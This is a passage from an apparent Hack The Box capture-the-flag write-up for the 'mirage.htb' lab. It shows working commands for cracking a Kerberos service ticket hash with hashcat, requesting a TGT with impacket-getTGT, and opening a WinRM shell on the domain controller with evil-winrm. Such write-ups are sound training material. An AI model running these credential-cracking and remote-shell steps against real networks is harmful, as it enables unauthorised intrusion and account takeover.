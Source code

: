 ```bash
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 3gards -> 3aemalemalo
Hardware.Mon.#1..: Util: 62%

Started: Sat Jul 26 03:44:13 2025
```

> We have valid credentials for the user!

### 🧾 Show the cracked value from `Hashcat`

```bash
hashcat -m 13100 tgs-nathan-aadam.hash /usr/share/wordlists/rockyou.txt --show
```

---

## 🎟️ Getting a `Ticket-Granting-Ticket` with `impacket-getTGT` (MITRE ATT&CK: Credential Access)

```bash
impacket-getTGT mirage.htb/nathan.aadam:REDACTED
```

```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in nathan.aadam.ccache
```

> A `.ccache` file was saved:

We can now exported the ticket and use it:

```bash
export KRB5CCNAME=nathan.aadam.ccache
```

---

## 🖥️ Time to get a WinRM shell ([`Port 5985`](https://www.speedguide.net/port.php?port=5985)) (MITRE ATT&CK: Lateral Movement)

> `rustscan` told us `5985/tcp  open  http  syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)`

Now, we can authenticate using **Kerberos** *(no password prompt needed)* since we got a valid `TGT` and spawn a `WinRM shell`.

### 🧰 `evil-winrm` to spawn the shell

```bash
evil-winrm -i dc01.mirage.htb -r mirage.htb
```
